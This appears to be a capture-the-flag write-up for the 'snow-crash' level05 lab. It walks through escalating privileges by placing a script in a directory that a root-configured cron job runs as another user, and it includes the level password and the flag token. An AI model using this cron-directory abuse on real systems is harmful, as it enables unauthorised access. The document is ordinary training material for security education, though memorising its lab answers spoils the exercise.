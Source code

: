 Login as `level05`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level05
level05@192.168.1.64's password: ne2searoevaevoem4ov4ar8ap
You have new mail.
```
Once logged into `level05` a message says that there is a new mail.
As `mail` program is not installed, it's likely to be in the spool file `/var/mail/$USER`
```shell
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
Seems that there is a `cron` job which executes the above command at every 2nd minute.

Looking inside scripts shows a loop which iterate through all the files in `/opt/openarenaserver/` and evaluate them.

`ulimit -t` means that the following process should be terminated if it uses more CPU time than what is specified in `-t`. Then the file is removed.
```shell
level05@SnowCrash:/opt/openarenaserver$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Create a script which will get the flag and redirect the output into `/tmp/flag05`.
```shell
level05@SnowCrash:~$ vi /opt/openarenaserver/getflag.sh
#!/bin/bash
/bin/getflag > /tmp/flag05
```
Change file modes by setting on execute bits.
```shell
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/getflag.sh
```
Execute cat program periodically on `/tmp/flag05`.
```shell
level05@SnowCrash:~$ watch -n 0.1 cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
